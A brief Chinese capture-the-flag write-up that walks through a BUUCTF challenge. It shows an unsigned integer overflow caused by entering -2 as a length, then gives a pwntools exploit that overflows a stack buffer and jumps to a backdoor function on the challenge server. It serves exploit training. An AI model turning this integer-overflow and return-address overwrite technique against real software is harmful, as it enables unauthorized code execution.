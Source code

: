 ### Unsigned int 无符号整数溢出

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67a73dfdd0e0a243d4fd12be.png)

观察代码可以看到原本我们 int 类型 nbytes 最后又转为了 unsigned int

![](https://pic1.imgdb.cn/item/67a73e12d0e0a243d4fd12c5.png)

本地调试一个简易程序

![](https://pic1.imgdb.cn/item/67a73fb9d0e0a243d4fd1304.png)

可以看到转换后的数值非常大，明显组成溢出

![](https://pic1.imgdb.cn/item/67a73fe6d0e0a243d4fd1308.png)

查看缓冲区大小

![](https://pic1.imgdb.cn/item/67a73e30d0e0a243d4fd12c8.png)

给出了后门函数

![](https://pic1.imgdb.cn/item/67a74060d0e0a243d4fd1312.png)

构造 payload

```python
from pwn import *

p = remote('node5.buuoj.cn',27053)

p.recvuntil('name:\n')
p.sendline(str(-2))
p.recvuntil('name?\n')

payload = b'a' * 0x18 + p64(0x400726)

p.sendline(payload)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67a740cbd0e0a243d4fd133a.png)
